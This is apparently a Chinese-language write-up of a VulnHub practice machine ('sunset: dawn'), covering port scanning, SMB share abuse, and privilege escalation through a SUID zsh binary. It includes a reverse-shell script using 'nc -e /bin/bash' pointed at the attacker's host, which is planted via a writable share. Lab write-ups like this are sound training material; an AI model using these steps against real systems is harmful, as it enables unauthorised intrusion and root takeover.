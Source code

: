 靶机地址：[sunset: dawn ~ VulnHub](https://www.vulnhub.com/entry/sunset-dawn,341/)
推荐：VirtualBox

主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- "192.168.1.165"
sudo nmap -p "80,139,445,3306" -sV "192.168.1.165"
# 80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
# 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
# 445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
# 3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
```

逐个看下，先访问web服务，没什么东西，试试路径扫描
```Shell
sudo dirsearch -u "http://192.168.1.165"
# /logs/
```
`/logs/management.log` 中存在很多系统进程相关的内容
其中关键信息为
```
2022/12/12 22:10:45 CMD: UID=0    PID=700    | /bin/sh -c chmod 777 /home/dawn/ITDEPT/product-control
2022/12/12 22:10:46 CMD: UID=1000 PID=718    | /bin/sh -c /home/dawn/ITDEPT/product-control
```

访问SMB服务
```Shell
smbclient -L \\\\192.168.1.165
# print$
# ITDEPT
# IPC$
smbclient \\\\192.168.1.165\\ITDEPT
smb: \> help
smb: \> ls
# 没东西
smb: \> put test.txt
# 可写
# 先删了
smb: \> del test.txt
```
尝试写 `product-control`
本地创建文件，内容如下
```Shell
#!/bin/bash
nc -e /bin/bash 192.168.1.26 4444
```
上传
```Shell
smbclient //192.168.1.165/ITDEPT
smb: \> put product-control
```
经过等待，获取到了反弹shell
尝试提权
```Shell
id
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
find / -type f -user root -perm -u+sx -ls 2>/dev/null
# /usr/bin/zsh
/usr/bin/zsh
whoami
# root
```
提权成功